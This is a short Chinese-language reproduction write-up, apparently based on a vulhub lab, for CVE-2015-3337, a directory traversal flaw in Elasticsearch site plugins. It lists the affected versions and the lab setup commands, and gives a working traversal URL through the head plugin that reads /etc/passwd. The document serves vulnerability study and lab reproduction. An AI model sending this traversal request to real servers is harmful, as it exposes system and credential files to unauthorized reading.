 （CVE-2015-3337）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

在安装了具有"site"功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

二、漏洞影响
------------

影响版本：1.4.5以下/1.5.2以下

三、复现过程
------------

编译及运行测试环境

    docker-compose build
    docker-compose up -d

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](./.resource/(CVE-2015-3337)ElasticSearch目录穿越漏洞/media/rId24.png)

### head插件

head插件提供了elasticsearch的前端页面，访问
`http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-3337/
